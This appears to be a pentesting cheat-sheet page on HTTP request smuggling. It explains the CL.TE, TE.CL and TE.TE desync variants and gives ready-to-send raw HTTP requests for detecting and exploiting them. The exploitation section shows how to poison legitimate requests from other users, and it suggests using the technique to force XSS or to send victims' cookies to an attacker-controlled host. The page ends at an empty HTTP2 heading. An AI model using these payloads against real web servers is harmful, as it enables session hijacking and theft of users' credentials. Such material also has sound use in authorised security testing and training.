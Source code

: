 ```yaml
---
title: Request Smuggling
description: HTTP Request Smuggling atttacks
---
```



## Notation

- **CL.TE**: front-end server uses the `Content-Length` header and the back-end server server uses the `Transfer-Encoding` header.
- **TE.CL**: front-end server uses the `Transfer-Encoding` header and the back-end server server uses the `Content-Length` header.
- **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.


## Detection

Please **FIRST** try detecting **CL.TE** as if it is vulnerable to it, the **TE.CL** detection payload wil poison the socket and cause a lot of harm

### **CL.TE** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: frontend response
 - TE.CL: frontend response
 - **CL.TE: timeout** (_vulnerable_)

Only after confirming no **CL.TE** desync attacks can be performed you can check the next variant:


### **TE.CL** detection

Send the following request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

There is 4 possible outcomes:
 - CL.CL: backend response
 - TE.TE: backend response
 - **TE.CL: timeout** (_vulnerable_)
 - _CL.TE: socket poison_ 💀




## Exploitation


### CL.TE

You can just _poison_ legitimate requests. For example the following request would result on the next user doing a `SMUGGLEDPOST` request:

```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

You can Actually change other users requests, so you can force them  to execute a XSS for example. It is also common for web proxies to hapily redirect users based on the host header so you could redirect people to your collaborator with their cookies by just specifiying a host header for the users.



### TE.CL


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Cookie: session=fnJJc90vRfPmIYHB3xmzTYJyhLx5JhGO
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

9d
GPOST / HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

a=
0


```



## TE.TE into CL.TE


```http
POST {{ path /about }} HTTP/1.1
Host: {{ target-domain vulerable.net }}
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: cow
Transfer-Encoding: chunked

0

G
```

## HTTP2


